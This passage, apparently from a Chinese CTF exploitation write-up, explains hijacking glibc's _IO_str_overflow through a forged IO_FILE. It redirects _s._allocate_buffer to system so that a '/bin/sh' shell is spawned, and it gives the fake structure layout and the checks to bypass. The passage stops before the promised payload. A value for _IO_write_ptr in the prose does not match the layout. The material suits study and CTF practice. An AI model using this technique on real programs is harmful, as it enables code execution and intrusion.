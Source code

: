 ```c
 
  if (!flush_only)
    *fp->_IO_write_ptr++ = (unsigned char) c;
  if (fp->_IO_write_ptr > fp->_IO_read_end)
    fp->_IO_read_end = fp->_IO_write_ptr;
  return c;
}
```

和之前利用`_IO_str_finish`的思路差不多，可以看到其中调用了`fp->_s._allocate_buffer`函数指针，其参数`rdi`为`new_size`，

因此，我们将`_s._allocate_buffer`改为`system`的地址，`new_size`改为`'/bin/sh'`的地址，

又`new_size = 2 * old_blen + 100`，也就是`new_size = 2 * _IO_blen (fp) + 100`，

可以找到宏定义：

`#define _IO_blen(fp) ((fp)->_IO_buf_end - (fp)->_IO_buf_base)`，

因此`new_size = 2 * ((fp)->_IO_buf_end - (fp)->_IO_buf_base) + 100`，

故我们可以使**`_IO_buf_base = 0`，`_IO_buf_end = (bin_sh_addr - 100) // 2`**，

当然还不能忘了需要绕过`_IO_flush_all_lokcp`函数中的输出缓冲区的检查

**`_mode<=0`以及`_IO_write_ptr>_IO_write_base`**

才能进入到`_IO_OVERFLOW`中，

故令`_IO_write_ptr = 0xffffffffffffffff`且`_IO_write_base = 0x0`即可。
最终可按如下布局`fake IO_FILE`：

```c
._chain => chunk_addr
chunk_addr
{
  file = {
    _flags = 0x0,
    _IO_read_ptr = 0x0,
    _IO_read_end = 0x0,
    _IO_read_base = 0x0,
    _IO_write_base = 0x0,
    _IO_write_ptr = 0x1,
    _IO_write_end = 0x0,
    _IO_buf_base = 0x0,
    _IO_buf_end = (bin_sh_addr - 100) // 2,
      ...
      _mode = 0x0, //一般不用特意设置
      _unused2 = '\000' <repeats 19 times>
  },
  vtable = _IO_str_jumps //chunk_addr + 0xd8 ~ +0xe0
}
+0xe0 ~ +0xe8 : system_addr / one_gadget //fp->_s._allocate_buffer
```

参考`payload`（劫持的`stdout`）：
